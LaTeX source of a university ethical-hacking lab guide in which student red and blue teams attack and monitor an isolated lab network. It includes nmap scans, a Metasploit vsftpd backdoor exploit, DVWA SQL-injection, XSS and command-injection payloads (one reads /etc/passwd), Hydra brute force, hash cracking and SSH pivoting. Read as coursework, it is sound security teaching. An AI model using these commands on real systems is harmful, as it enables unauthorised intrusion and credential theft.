\documentclass[11pt,a4paper]{article}
% Shared preamble for CYS 4151 lab reports (network config + execution guide)
\NeedsTeXFormat{LaTeX2e}

\usepackage[margin=2.2cm,headheight=28pt]{geometry}
\usepackage[table,xcdraw]{xcolor}
\usepackage{fontspec}

% force the PDF's copy/search text layer to record the exact original input
% characters (ActualText), not whatever codepoint xdvipdfmx's font-cmap
% heuristic would otherwise pick for a shared glyph (this is what was turning
% a typed ASCII hyphen-minus "-" into a copy-pasted Unicode hyphen "‐" U+2010,
% silently breaking every copy-pasted shell command that uses a "-flag")
\XeTeXgenerateactualtext=1

\setmainfont{Calibri}[
  BoldFont = Calibri Bold,
  ItalicFont = Calibri Italic,
  BoldItalicFont = Calibri Bold Italic
]
\setmonofont{Consolas}

\usepackage{booktabs}
\usepackage{array}
\usepackage{longtable}
\usepackage{tabularx}
\usepackage{graphicx}
\usepackage{tikz}
\usetikzlibrary{shapes.geometric,arrows.meta,positioning,fit,backgrounds,calc}
\usepackage[most]{tcolorbox}
\usepackage{enumitem}
\usepackage{fancyhdr}
\usepackage[hypcap=false]{caption}
\usepackage{titlesec}
\usepackage{hyperref}
\usepackage{pifont}
\usepackage{multirow}
\usepackage{rotating}
\usepackage{lastpage}
\usepackage{fancyvrb}
\usepackage{needspace}

\providecommand{\DocShortTitle}{}

% ---------- colour palette ----------
\definecolor{navy}{HTML}{1B2A4A}
\definecolor{steel}{HTML}{2E5C8A}
\definecolor{blueteam}{HTML}{1F6FB2}
\definecolor{blueteamlight}{HTML}{DCEBF7}
\definecolor{redteam}{HTML}{B23A2E}
\definecolor{redteamlight}{HTML}{FBE2DF}
\definecolor{targetgrey}{HTML}{5A5A5A}
\definecolor{targetlight}{HTML}{E9E9E9}
\definecolor{accentgold}{HTML}{C8922A}
\definecolor{lightgrey}{HTML}{F4F6F8}
\definecolor{codebg}{HTML}{F7F7F9}
\definecolor{codeborder}{HTML}{C9CDD3}
\definecolor{okgreen}{HTML}{2E7D32}
\definecolor{warnamber}{HTML}{B8860B}

% ---------- column helpers ----------
\newcolumntype{L}[1]{>{\raggedright\arraybackslash}p{#1}}
\newcolumntype{C}[1]{>{\centering\arraybackslash}p{#1}}

% ---------- headings ----------
\titleformat{\section}{\large\bfseries\color{navy}}{\thesection}{0.6em}{}[{\color{steel}\titlerule[0.8pt]}]
\titleformat{\subsection}{\normalsize\bfseries\color{steel}}{\thesubsection}{0.6em}{}
\titleformat{\subsubsection}{\normalsize\bfseries\color{navy}}{\thesubsubsection}{0.6em}{}

\pagestyle{fancy}
\fancyhf{}
\renewcommand{\headrulewidth}{0.6pt}
\renewcommand{\footrulewidth}{0.4pt}
\lhead{\small\color{navy}\textbf{CYS 4151 -- Ethical Hacking Lab}}
\rhead{\small\color{navy}\DocShortTitle}
\lfoot{\small\color{targetgrey}SecureTech Solutions Ltd. Security Assessment}
\rfoot{\small\color{targetgrey}Page \thepage\ of \pageref{LastPage}}

\hypersetup{
  colorlinks=true,
  linkcolor=steel,
  citecolor=steel,
  urlcolor=steel,
  pdfborder={0 0 0}
}

% ---------- command/comment boxes ----------
\newtcolorbox{cmdbox}[1][]{
  enhanced, breakable, colback=codebg, colframe=codeborder, boxrule=0.5pt,
  arc=2pt, left=6pt, right=6pt, top=4pt, bottom=4pt,
  fonttitle=\bfseries\small, coltitle=navy,
  title={#1}
}

\newtcolorbox{expectbox}{
  enhanced, breakable, colback=blueteamlight!60, colframe=blueteam, boxrule=0.5pt,
  arc=2pt, left=6pt, right=6pt, top=3pt, bottom=3pt,
  fonttitle=\bfseries\small, coltitle=white, colbacktitle=blueteam,
  title={Expected Outcome}
}

\newtcolorbox{troublebox}{
  enhanced, breakable, colback=redteamlight!50, colframe=redteam, boxrule=0.5pt,
  arc=2pt, left=6pt, right=6pt, top=3pt, bottom=3pt,
  fonttitle=\bfseries\small, coltitle=white, colbacktitle=redteam,
  title={Difficulty Encountered}
}

\newtcolorbox{notebox}[1][Note]{
  enhanced, breakable, colback=lightgrey, colframe=accentgold, boxrule=0.5pt,
  arc=2pt, left=6pt, right=6pt, top=3pt, bottom=3pt,
  fonttitle=\bfseries\small, coltitle=white, colbacktitle=accentgold,
  title={#1}
}

\newtcolorbox{redbox}[1][Red Team Strategy]{
  enhanced, breakable, colback=redteamlight!40, colframe=redteam, boxrule=0.7pt,
  arc=2pt, left=6pt, right=6pt, top=3pt, bottom=3pt,
  fonttitle=\bfseries\small, coltitle=white, colbacktitle=redteam,
  title={#1}
}

\newtcolorbox{bluebox}[1][Blue Team Strategy]{
  enhanced, breakable, colback=blueteamlight!50, colframe=blueteam, boxrule=0.7pt,
  arc=2pt, left=6pt, right=6pt, top=3pt, bottom=3pt,
  fonttitle=\bfseries\small, coltitle=white, colbacktitle=blueteam,
  title={#1}
}

% ---------- nickname badges ----------
\newcommand{\pcbadge}[2]{%
  \tikz[baseline=-0.6ex]\node[rectangle,rounded corners=2pt,inner sep=3pt,
    fill=#1!85!black,text=white,font=\scriptsize\bfseries]{#2};%
}
\newcommand{\marshall}{\pcbadge{blueteam}{PC1 Marshall}}
\newcommand{\fahdil}{\pcbadge{blueteam}{PC2 Fahdil}}
\newcommand{\rayan}{\pcbadge{redteam}{PC3 Rayan}}
\newcommand{\bruno}{\pcbadge{redteam}{PC4 Bruno}}
\newcommand{\amina}{\pcbadge{blueteam}{PC5 Amina}}

\newcommand{\thd}[1]{\textcolor{white}{\textbf{#1}}}

% ---------- verbatim command blocks (safe for #, $, %, &, ^, _, ~, {, }, \) ----------
\DefineVerbatimEnvironment{cmdverb}{Verbatim}{fontsize=\small}

\newlist{steps}{enumerate}{2}
\setlist[steps]{label=\arabic*., left=1.2em, itemsep=2pt, topsep=3pt}

\AtBeginDocument{\renewcommand{\arraystretch}{1.25}}

\renewcommand{\DocShortTitle}{Post-Configuration Execution Guide}

\begin{document}
\pagenumbering{gobble}

% ===================== TITLE PAGE =====================
\begin{titlepage}
\centering
\vspace*{1.2cm}
{\Huge\bfseries\color{navy} CYS 4151 Ethical Hacking Lab}\\[10pt]
{\Large\color{steel} Post-Configuration Execution Guide --- Tasks 2--13}\\[4pt]
{\large\color{targetgrey} SecureTech Solutions Ltd. --- Enterprise Security Assessment}\\[28pt]


\begin{tikzpicture}
\node[rectangle,rounded corners=4pt,draw=steel,line width=0.8pt,fill=lightgrey,
  inner sep=12pt,text width=0.78\textwidth] {
  \raggedright
  \textbf{\color{navy}Scope.} This guide picks up once the lab network described in
  \emph{CYS 4151 Lab Network Configuration} is live: pfSense routing at
  \texttt{192.168.50.1}, every client bridged with a verified static IP, and
  connectivity confirmed end to end. It walks \textbf{Tasks 2--13} of
  \emph{CYS 4151 Final Examination, Setting A, Summer 2026} in execution order, with
  the command for each step, which team member runs it, the Red/Blue Team intent
  behind it, and the expected outcome.
};
\end{tikzpicture}

\vspace{28pt}
{\large\bfseries\color{navy} Lab Team}\\[10pt]
\renewcommand{\arraystretch}{1.5}
\begin{tabular}{c c c c}
\marshall & \fahdil & \rayan & \bruno \\
\end{tabular}

\vspace{6pt}
\begin{tabular}{c}
\amina
\end{tabular}

\vfill
{\color{targetgrey}\small Course: CYS 4151 Ethical Hacking \quad|\quad Venue: Cisco Lab \quad|\quad Summer 2026}\\[4pt]
{\color{targetgrey}\small Document 2 of 2 --- see also \emph{CYS4151 Lab Network Configuration}}
\end{titlepage}

\pagenumbering{arabic}
\setcounter{page}{1}
\tableofcontents
\clearpage

% ===================== INTRO =====================
\section{How to Use This Guide}

Each task below states, in order: \textbf{who} runs it (by nickname/team badge), the
\textbf{strategy} driving that step (Red Team's attack intent or Blue Team's defensive
intent), the \textbf{command(s)} with inline comments, and the \textbf{expected
outcome} --- what the output should show and what it justifies doing next. Commands
shown for Kali/Linux hosts assume a bash shell as root or with \texttt{sudo} where
needed. All IPs match \emph{CYS 4151 Lab Network Configuration}: pfSense gateway
\texttt{192.168.50.1}; Suricata-on-Kali IDS \texttt{192.168.50.200} (hosted on PC1 with
Marshall); Fahdil's Windows 10 workstation \texttt{192.168.50.10}; Rayan's server host
\texttt{192.168.50.20} with nested DVWA/Juice Shop \texttt{192.168.50.30} and
Metasploitable \texttt{192.168.50.40}; Bruno's Kali attacker \texttt{192.168.50.100};
Amina's OpenVAS-on-Kali scanner \texttt{192.168.50.250}.

\begin{redbox}[Red Team Roster]
\bruno\ --- primary attacker platform, drives most offensive commands.
\rayan\ --- hosts the shared vulnerable targets and joins Bruno for exploitation,
privilege escalation, and lateral-movement analysis once the network is confirmed live.
\end{redbox}

\begin{bluebox}[Blue Team Roster]
\marshall\ --- pfSense firewall/ACL owner and the Suricata IDS operator (PC1 hosts
both VMs). \fahdil\ --- hardens and audits the workstation asset. \amina\ --- runs
OpenVAS vulnerability scanning and CVSS triage.
\end{bluebox}

\subsection{Before You Start Any Task}
\begin{steps}
\item Set hostname and desktop clock visibly (top corner) on every VM you record ---
  required overlay for all 13 tasks.
\item Confirm hostname and date/time on each VM before recording.
\end{steps}

\begin{cmdbox}[Confirm identity overlay prerequisites]
\begin{cmdverb}
hostnamectl
date
\end{cmdverb}
\end{cmdbox}

\begin{steps}
\item Create an evidence folder structure on your host machine and save into the
  matching folder immediately, not at the end of the day.
\end{steps}

\begin{cmdbox}[Evidence folder structure]
\begin{cmdverb}
mkdir -p ~/CYS4151/Screenshots/Task-{02..13}
mkdir -p ~/CYS4151/Videos/Task-{02..13}
\end{cmdverb}
\end{cmdbox}

\begin{notebox}[Recording checklist]
Confirm every recording tool (OBS, VirtualBox's own capture, or a phone tripod on the
physical screen) shows your Student ID and name overlay before you press record ---
check this once, not per task.
\end{notebox}

\clearpage

% ===================== TASK 2 =====================
\section{Task 2 --- Reconnaissance \& Asset Discovery (4 marks)}
\textbf{Runs on:} \bruno\ (Kali, PC4). \quad\textbf{Goal:} discover every live host on
\texttt{192.168.50.0/24} and build the asset inventory table.

\begin{redbox}
Bruno's opening move is a wide, low-noise sweep first (host discovery only, no port
scan) to map who exists before touching anything --- this limits the footprint Blue
Team's IDS sees in the first pass. Only after the asset map is built does he escalate
to per-host fingerprinting (\texttt{-A}), expecting pfSense/Suricata logging to pick
this up from here on.
\end{redbox}

\begin{cmdbox}[Host discovery sweep]
\begin{cmdverb}
# find every live IP on the subnet without touching any ports yet
nmap -sn 192.168.50.0/24
\end{cmdverb}
\end{cmdbox}

\begin{cmdbox}[OS/service fingerprint pass per discovered host]
\begin{cmdverb}
nmap -A 192.168.50.1   -oN scan_pfsense.txt       # gateway/firewall
nmap -A 192.168.50.10  -oN scan_workstation.txt   # Fahdil's Windows 10 workstation
nmap -A 192.168.50.20  -oN scan_server.txt        # Rayan's server host
nmap -A 192.168.50.30  -oN scan_dvwa.txt          # nested DVWA/Juice Shop
nmap -A 192.168.50.40  -oN scan_metasploitable.txt
nmap -A 192.168.50.200 -oN scan_suricata.txt      # Marshall's IDS sensor (PC1)
nmap -A 192.168.50.250 -oN scan_openvas.txt       # Amina's OpenVAS scanner (PC5)
\end{cmdverb}
\end{cmdbox}

\begin{expectbox}
The \texttt{-sn} sweep reports 7 hosts up. Each \texttt{-A} scan returns open
ports, service versions, and a guessed OS --- record IP, MAC vendor, guessed OS, and
open ports per host into the asset inventory table (feeds Task 13's Asset Inventory
deliverable). This output tells Bruno which hosts are worth enumerating further in
Task 3, and tells Marshall/Amina (Blue Team) what a baseline recon sweep looks like in
their logs for comparison in Task 11.
\end{expectbox}

\begin{notebox}[Video/Screenshot]
\textbf{VIDEO} --- start recording before the \texttt{nmap -sn} sweep, narrate expected
vs.\ actual host count, stop after the last \texttt{-A} scan. \textbf{SCREENSHOT} ---
the \texttt{-sn} output, and one \texttt{-A} output per host, overlay visible.
\end{notebox}

\clearpage

% ===================== TASK 3 =====================
\section{Task 3 --- Service Enumeration (4 marks)}
\textbf{Runs on:} \bruno\ (Kali, PC4). \quad\textbf{Goal:} identify service versions,
protocols, and web technologies on each target to justify which entry points to attack.

\begin{redbox}
With the asset map from Task 2 in hand, Bruno narrows focus to the hosts that matter
for exploitation --- Rayan's server/target stack --- and goes deep: every port, every
version, every script-assisted enumeration. The DVWA/web stack gets its own
fingerprinting pass since Task 7 depends on knowing exactly what is running there.
\end{redbox}

\begin{cmdbox}[Full deep port/version scan against server and web targets]
\begin{cmdverb}
nmap -sV -sC -p- 192.168.50.20 192.168.50.30 192.168.50.40 -oN full_scan.txt
\end{cmdverb}
\end{cmdbox}

\begin{cmdbox}[Fingerprint the web app stack]
\begin{cmdverb}
whatweb 192.168.50.30
curl -I http://192.168.50.30
\end{cmdverb}
\end{cmdbox}

\begin{cmdbox}[Targeted NSE scripts against Metasploitable services]
\begin{cmdverb}
nmap --script=smb-enum-shares -p445 192.168.50.40
nmap --script=ftp-anon        -p21  192.168.50.40
\end{cmdverb}
\end{cmdbox}

\begin{expectbox}
\texttt{-sV -sC -p-} returns the full version/service table for all three hosts
(expect FTP, SSH, Telnet, SMTP, HTTP, SMB and MySQL-class services on the
Metasploitable target). \texttt{whatweb}/\texttt{curl} return the web server banner and
DVWA's login page headers. The SMB/FTP NSE scripts report whether shares are
browsable and whether anonymous FTP is enabled --- both are Task 5/6 candidate
findings if so.
\end{expectbox}

\begin{notebox}[Video/Screenshot]
\textbf{VIDEO} --- record the full \texttt{-sV -sC -p-} scan (narrate what each open
port could mean while it runs) plus the \texttt{whatweb}/\texttt{curl} step.
\textbf{SCREENSHOT} --- version/service table per target, and the header output for
the web app.
\end{notebox}

\clearpage

% ===================== TASK 4 =====================
\section{Task 4 --- Threat Modeling \& Risk Identification (4 marks)}
\textbf{Runs on:} whole team (documentation task, no new commands). \quad\textbf{Goal:}
turn Task 2/3 findings into a structured threat model.

\begin{steps}
\item List critical assets (customer data on the server, the web app, employee
  credentials) and map each to the vulnerabilities/open services found so far.
\item Identify plausible attacker profiles (external opportunist, disgruntled
  employee, credential-stuffing bot) and their likely attack vector per asset.
\item Draft a simple STRIDE or asset-threat-impact table for the Task 13 report.
\end{steps}

\begin{notebox}[Video/Screenshot]
\textbf{VIDEO} --- optional but recommended: a short narrated walkthrough of the
threat/risk table, overlay visible, to cover the one-video-per-task rule.
\textbf{SCREENSHOT} --- the completed threat model/risk table.
\end{notebox}

\clearpage

% ===================== TASK 5 =====================
\section{Task 5 --- Vulnerability Assessment (6 marks)}
\textbf{Runs on:} \amina\ (OpenVAS-on-Kali, PC5, \texttt{192.168.50.250}).
\quad\textbf{Goal:} run automated scanning and confirm at least 5 vulnerabilities with
severity ratings, cross-checked manually.

\begin{bluebox}
Amina scans proactively, independent of whatever Bruno/Rayan are doing, so Blue Team
has its own evidence of what is wrong \emph{before} Red Team confirms it by exploiting
it. A Full and Fast scan against the whole target set gives breadth; the manual
cross-checks (\texttt{searchsploit}, \texttt{vulners}) add depth and double-source each
finding, which strengthens the CVSS justification in the final report.
\end{bluebox}

\begin{cmdbox}[Start the GVM/OpenVAS stack and reach the web UI]
\begin{cmdverb}
sudo gvm-start
# then open https://192.168.50.250:9392 in the browser
\end{cmdverb}
\end{cmdbox}

\begin{steps}
\item In the OpenVAS UI, create a target list (\texttt{192.168.50.20},
  \texttt{192.168.50.30}, \texttt{192.168.50.40}), then launch a \textbf{Full and Fast}
  scan against it (GUI step, no CLI equivalent).
\item Once complete, export the results sorted by CVSS severity (\textbf{Scan Results}
  $\to$ \textbf{Export} $\to$ CSV/PDF).
\end{steps}

\begin{cmdbox}[Cross-check at least 2 findings manually]
\begin{cmdverb}
searchsploit apache 2.4

# nmap's built-in "vuln" script category - ships with nmap, no extra
# install required (unlike third-party scripts such as vulners.nse)
nmap -sV --script vuln 192.168.50.30
\end{cmdverb}
\end{cmdbox}

\begin{expectbox}
The scan dashboard lists findings sorted High $\to$ Low with CVSS scores. Select and
document at least 5 with supporting evidence (scan detail page screenshot).
\texttt{searchsploit}/\texttt{nmap --script vuln} output either corroborates a scanner
finding (strengthens it) or surfaces something the automated scan missed --- either
way, feed the confirmed list into Task 6's exploit selection.
\end{expectbox}

\begin{notebox}[Difficulty encountered building PC5]
See \emph{CYS 4151 Lab Network Configuration}, Section 9, for the disk-space exhaustion
we hit building this scanner (not a VRAM issue) and how we resolved it --- not repeated
here to avoid duplication.
\end{notebox}

\begin{notebox}[Video/Screenshot]
\textbf{VIDEO} --- record scan setup/target configuration, then the results dashboard
sorted by severity. \textbf{SCREENSHOT} --- scan configuration, results dashboard, and
the CVSS detail page for each of the 5+ selected vulnerabilities.
\end{notebox}

\clearpage

% ===================== TASK 6 =====================
\section{Task 6 --- Controlled Exploitation / Initial Access (6 marks)}
\textbf{Runs on:} \bruno\ (Kali, PC4), targeting Rayan's nested Metasploitable host.
\quad\textbf{Goal:} exploit one confirmed vulnerability from Task 5 to gain access.

\begin{redbox}
This is the centerpiece demo. Bruno picks the clearest, most defensible finding from
Task 5 (a known Metasploitable2 backdoor is the cleanest teaching example) rather than
the flashiest one, because the report needs a clean, explainable attack path:
vulnerability $\to$ exploit $\to$ access $\to$ why it worked.
\end{redbox}

\begin{cmdbox}[Launch Metasploit and search for a matching module]
\begin{cmdverb}
msfconsole
search type:exploit vsftpd
\end{cmdverb}
\end{cmdbox}

\begin{cmdbox}[Configure and run the exploit]
\begin{cmdverb}
use exploit/unix/ftp/vsftpd_234_backdoor
set RHOSTS 192.168.50.40
set PAYLOAD cmd/unix/interact
run
\end{cmdverb}
\end{cmdbox}

\begin{cmdbox}[Verify access immediately]
\begin{cmdverb}
whoami
id
hostname
\end{cmdverb}
\end{cmdbox}

\begin{expectbox}
The exploit returns an interactive shell; \texttt{whoami}/\texttt{id} confirm the
effective user on \texttt{192.168.50.40}. Document the full attack path for Task 13 and
keep this session open --- Task 9 escalates privileges from exactly this foothold.
\end{expectbox}

\begin{notebox}[Video/Screenshot]
\textbf{VIDEO} --- start recording before opening \texttt{msfconsole}; capture module
selection, exploit execution, and the moment access is confirmed --- do not cut this
clip, it is the strongest evidence in the report. \textbf{SCREENSHOT} ---
\texttt{msfconsole} exploit configuration (show options), the successful shell prompt,
and the \texttt{whoami}/\texttt{id} output.
\end{notebox}

\clearpage

% ===================== TASK 7 =====================
\section{Task 7 --- Web Application Security Assessment (6 marks)}
\textbf{Runs on:} \bruno\ (Kali, PC4) against Rayan's DVWA host
(\texttt{192.168.50.30}). \quad\textbf{Goal:} demonstrate at least 2 OWASP Top 10
vulnerabilities.

\begin{redbox}
Independent of the Metasploitable foothold, Bruno treats the web app as its own attack
surface --- this is deliberate: a real attacker rarely stops after one entry point, and
the exam explicitly scores this as a separate task from Task 6.
\end{redbox}

\begin{steps}
\item Log in to DVWA and set the security level to \textbf{low} under DVWA Security
  (clean teaching demo).
\end{steps}

\begin{cmdbox}[SQL Injection payload]
\begin{cmdverb}
' OR '1'='1
\end{cmdverb}
\end{cmdbox}

\begin{cmdbox}[Reflected/stored XSS payload]
\begin{cmdverb}
<script>alert('XSS')</script>
\end{cmdverb}
\end{cmdbox}

\begin{cmdbox}[Alternative second class: Command Injection]
\begin{cmdverb}
127.0.0.1; whoami
127.0.0.1 && cat /etc/passwd
\end{cmdverb}
\end{cmdbox}

\begin{expectbox}
The SQLi payload returns extra rows/data beyond the intended single record (data
extraction). The XSS payload pops an alert box when the page renders the unescaped
input. The command-injection payloads append their output (username, or
\texttt{/etc/passwd} contents) to the page's normal output. Screenshot each payload and
its result \emph{separately} --- one screenshot per vulnerability, not one for both.
\end{expectbox}

\begin{notebox}[Video/Screenshot]
\textbf{VIDEO} --- one continuous clip (or two clearly separated) showing each
vulnerability: payload entry $\to$ submission $\to$ visible proof of exploitation.
\textbf{SCREENSHOT} --- before/after for each vulnerability.
\end{notebox}

\clearpage

% ===================== TASK 8 =====================
\section{Task 8 --- Credential Security Assessment (4 marks)}
\textbf{Runs on:} \bruno\ (attack, Kali PC4) against Fahdil's and Rayan's hosts;
\fahdil\ (policy review, PC2). \quad\textbf{Goal:} audit password policy weaknesses and
demonstrate a password attack.

\begin{redbox}
Bruno treats weak/default/reused credentials as the lowest-effort path to access,
consistent with the scenario's own incident list (``employees using weak or reused
passwords''). Brute-forcing DVWA's login and SSH on Metasploitable both target
accounts with no lockout policy --- exactly the gap Blue Team is asked to close.
\end{redbox}

\begin{steps}
\item DVWA's brute-force page requires an authenticated session --- log in to DVWA in
  a browser first (any valid account, security level \textbf{low}), open DevTools
  $\to$ Application/Storage $\to$ Cookies, and copy the \texttt{PHPSESSID} value.
  Without this cookie, every Hydra attempt just hits the login redirect and ``fails''
  regardless of the password tried.
\end{steps}

\begin{cmdbox}[Brute-force the DVWA login form]
\begin{cmdverb}
hydra -l admin -P /usr/share/wordlists/rockyou.txt 192.168.50.30 \
  http-post-form "/dvwa/vulnerabilities/brute/:username=^USER^&password=^PASS^\
&Login=Login:Login failed:H=Cookie: security=low; PHPSESSID=<paste_session_id_here>"
\end{cmdverb}
\end{cmdbox}

\begin{cmdbox}[Brute-force SSH on the Metasploitable target]
\begin{cmdverb}
hydra -l msfadmin -P /usr/share/wordlists/rockyou.txt ssh://192.168.50.40
\end{cmdverb}
\end{cmdbox}

\begin{cmdbox}[Crack a captured password hash]
\begin{cmdverb}
john --wordlist=/usr/share/wordlists/rockyou.txt hash.txt
hashcat -m 0 hash.txt /usr/share/wordlists/rockyou.txt
\end{cmdverb}
\end{cmdbox}

\begin{expectbox}
\texttt{hydra} reports a recovered valid credential pair once it matches a weak entry
in the wordlist (fast against \texttt{rockyou.txt} because these are intentionally weak
lab accounts). \texttt{john}/\texttt{hashcat} report the cracked plaintext for any
captured hash. Each successful crack is direct evidence for the policy weaknesses
Fahdil documents next.
\end{expectbox}

\begin{bluebox}
\fahdil\ reviews the workstation's local account policy (or the DVWA/service login
policy) and records concrete weaknesses observed from the attack above: no lockout
threshold, no complexity rule, default credentials still active. Recommendations:
enforce lockout after N failed attempts, minimum complexity, and MFA where the
platform supports it --- feeds directly into Task 12's hardening plan.
\end{bluebox}

\begin{notebox}[Video/Screenshot]
\textbf{VIDEO} --- record the \texttt{hydra}/\texttt{john} run from launch to a
successful cracked credential, with the policy weakness explained in narration.
\textbf{SCREENSHOT} --- the password policy weakness (config/settings page) and the
successful brute-force/crack output.
\end{notebox}

\clearpage

% ===================== TASK 9 =====================
\section{Task 9 --- Privilege Escalation \& Persistence Analysis (5 marks)}
\textbf{Runs on:} \bruno\ \& \rayan\ (from the Task 6 session on
\texttt{192.168.50.40}). \quad\textbf{Goal:} escalate from low-privilege access to
admin/root, and discuss (without deploying) persistence mechanisms.

\begin{redbox}
From the foothold gained in Task 6, Red Team enumerates escalation paths rather than
guessing --- SUID binaries, sudo misconfiguration, and kernel version are the three
fastest wins on an intentionally old target like Metasploitable2.
\end{redbox}

\begin{cmdbox}[Enumerate escalation paths]
\begin{cmdverb}
sudo -l
find / -perm -4000 -type f 2>/dev/null
uname -a
\end{cmdverb}
\end{cmdbox}

\begin{cmdbox}[Search for a matching local privilege-escalation exploit]
\begin{cmdverb}
searchsploit linux kernel 2.6
\end{cmdverb}
\end{cmdbox}

\begin{cmdbox}[Execute and confirm elevated access]
\begin{cmdverb}
id
whoami
\end{cmdverb}
\end{cmdbox}

\begin{expectbox}
\texttt{find ... -perm -4000} lists SUID binaries; one of them (or a kernel exploit
matched by \texttt{searchsploit}) yields root. \texttt{id}/\texttt{whoami} after
escalation show \texttt{uid=0(root)}. Discuss --- in the report/narration only, do not
deploy --- how an attacker could persist afterwards: a cron job, a scheduled task, an
added user account, or a planted SSH key.
\end{expectbox}

\begin{notebox}[Video/Screenshot]
\textbf{VIDEO} --- record enumeration through confirmed root/admin access; narrate the
persistence discussion since it is not executed live. \textbf{SCREENSHOT} ---
enumeration output showing the escalation vector, and the confirmed elevated-privilege
prompt.
\end{notebox}

\clearpage

% ===================== TASK 10 =====================
\section{Task 10 --- Post-Exploitation \& Lateral Movement Analysis (5 marks)}
\textbf{Runs on:} \bruno\ \& \rayan\ (from the escalated session on
\texttt{192.168.50.40}). \quad\textbf{Goal:} show what an attacker could reach next
from the compromised host.

\begin{redbox}
Red Team treats the compromised Metasploitable host as a pivot point, not an endpoint
--- the question is what it can reach that Bruno's own Kali box cannot directly, which
is the realistic shape of lateral movement in a segmented network.
\end{redbox}

\begin{cmdbox}[Enumerate the internal network view from the compromised host]
\begin{cmdverb}
arp -a
netstat -antp
cat /etc/hosts
ip route
\end{cmdverb}
\end{cmdbox}

\begin{cmdbox}[Open a SOCKS pivot through the compromised host]
\begin{cmdverb}
# dynamic port forward: opens a local SOCKS proxy on 1080 that routes
# through the Metasploitable host's own network view
ssh -D 1080 msfadmin@192.168.50.40

# point proxychains at that listener: confirm /etc/proxychains4.conf's last
# line reads "socks5 127.0.0.1 1080", then route a scan through the pivot
proxychains nmap -sT 192.168.50.0/24
\end{cmdverb}
\end{cmdbox}

\begin{cmdbox}[Alternative: forward one specific service through the pivot]
\begin{cmdverb}
ssh -L 8080:192.168.50.250:80 msfadmin@192.168.50.40
# then browse http://127.0.0.1:8080 on Bruno's own machine
\end{cmdverb}
\end{cmdbox}

\begin{expectbox}
\texttt{arp -a}/\texttt{netstat} reveal hosts and connections visible only from inside
the compromised machine's vantage point. If pfSense's ACL (see
\emph{Lab Network Configuration}, rule 5) is working as designed, the proxychains sweep
should \emph{not} reach hosts outside the declared \texttt{Target\_Hosts} alias ---
document this as evidence the segmentation rule holds even after a target is
compromised.
\end{expectbox}

\begin{notebox}[Video/Screenshot]
\textbf{VIDEO} --- record the enumeration commands and, if performed, the pivot/tunnel
setup and resulting access. \textbf{SCREENSHOT} --- internal enumeration output and,
if performed, evidence of reaching (or being blocked from) the second host.
\end{notebox}

\clearpage

% ===================== TASK 11 =====================
\section{Task 11 --- Blue Team Investigation: Traffic \& Logs (5 marks)}
\textbf{Runs on:} \marshall\ (Suricata-on-Kali, PC1, \texttt{192.168.50.200}) with
supporting log pulls by \amina\ and \fahdil. \quad\textbf{Goal:} reconstruct Red Team's
\emph{entire} campaign from its first packet in Task 2 through Task 10, using traffic
captures and logs only --- not prior knowledge of what Bruno/Rayan did.

\begin{bluebox}
Marshall's Suricata sensor has been running in promiscuous IDS mode on the LAN backbone
since before Task 2 even started (see \emph{Lab Network Configuration}, Section 5), so
\texttt{eve.json} already holds a timestamped record of the whole engagement. Rather
than capturing one snapshot, Blue Team's job here is to walk that timeline
\emph{chronologically} and show which log entry corresponds to which Red Team task ---
this is what makes the detection story credible instead of a single disconnected
screenshot.
\end{bluebox}

\subsection{Pull the full alert timeline first}
Before filtering for anything specific, get the whole picture in time order so later,
narrower queries can be justified by what this first pass shows.

\begin{cmdbox}[Full Suricata alert timeline, oldest first]
\begin{cmdverb}
# every alert since Suricata started, oldest first, readable fields only
# (note: signature/category/severity live under the nested .alert object)
jq -s 'sort_by(.timestamp) | .[] | select(.event_type=="alert") |
  {timestamp, src_ip, dest_ip, dest_port, signature: .alert.signature}' \
  /var/log/suricata/eve.json
\end{cmdverb}
\end{cmdbox}

\begin{expectbox}
This returns one JSON object per alert in chronological order. Expect the very first
entries to be \texttt{LOCAL Potential TCP Port Scan} hits with \texttt{src\_ip} =
Bruno's \texttt{192.168.50.100} --- that is Task 2's \texttt{nmap -sn} sweep. Keep this
output; Sections 11.2--11.5 below re-query the same file narrowed to one task at a
time so each finding can be cited by task number in the report.
\end{expectbox}

\subsection{Task 2/3 --- Reconnaissance and enumeration}
\begin{cmdbox}[Isolate scan-detection alerts from Bruno's host]
\begin{cmdverb}
jq 'select(.event_type=="alert" and .src_ip=="192.168.50.100" and
  (.alert.signature | test("Port Scan")))' /var/log/suricata/eve.json
\end{cmdverb}
\end{cmdbox}

\begin{expectbox}
Expect a burst of \texttt{LOCAL Potential TCP Port Scan} alerts starting at the
timestamp of Bruno's \texttt{nmap -sn} sweep, with a second, larger burst later
matching the \texttt{-p-} full-port scan in Task 3 (same signature, far higher alert
count in a shorter window because every port is probed, not just a host-discovery
ping). The destination IPs across both bursts cover the whole \texttt{192.168.50.0/24}
range for the first sweep, narrowing to \texttt{.20/.30/.40} for the Task 3 pass ---
that narrowing is itself evidence Red Team moved from discovery to targeting.
\end{expectbox}

\subsection{Task 6 --- Exploitation evidence}
\begin{cmdbox}[Suricata: exploit-category alerts against the Metasploitable host]
\begin{cmdverb}
jq 'select(.event_type=="alert" and .dest_ip=="192.168.50.40")' \
  /var/log/suricata/eve.json
\end{cmdverb}
\end{cmdbox}

\begin{cmdbox}[Target-side evidence of the vsftpd backdoor connection]
\begin{cmdverb}
# on the Metasploitable target itself (or its syslog if forwarded)
grep -i ftp /var/log/syslog | tail -n 20
who -a
\end{cmdverb}
\end{cmdbox}

\begin{expectbox}
If the full ET-open ruleset was pulled via \texttt{suricata-update}
(\emph{Lab Network Configuration}, Section 5.5), an exploit/trojan-category alert for
the known vsftpd 2.3.4 backdoor pattern typically appears around the timestamp Bruno
